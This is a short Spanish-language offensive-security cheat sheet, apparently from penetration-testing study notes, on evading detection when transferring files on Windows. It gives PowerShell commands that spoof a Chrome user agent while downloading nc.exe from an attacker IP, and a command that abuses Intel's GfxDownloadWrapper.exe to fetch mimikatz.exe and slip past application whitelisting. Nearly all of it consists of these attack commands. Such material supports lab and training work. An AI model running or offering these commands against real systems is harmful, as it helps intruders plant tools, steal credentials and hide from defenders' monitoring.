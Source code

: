 ## Evadir Detección — Cambio de User Agent (PowerShell)

> Invoke-WebRequest permite sobrescribir el User-Agent; útil para blends con tráfico legítimo.

**Listar User Agents predefinidos**
```
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | 
  Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```

**Ejemplo: usar Chrome user agent**
```
$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

**LOLBAS / GTFOBins y "misplaced trust binaries"**

Ejemplo: GfxDownloadWrapper.exe (Intel)
```
#Descarga usando un LOLBIN que puede estar permitido por AppWhitelisting
GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```







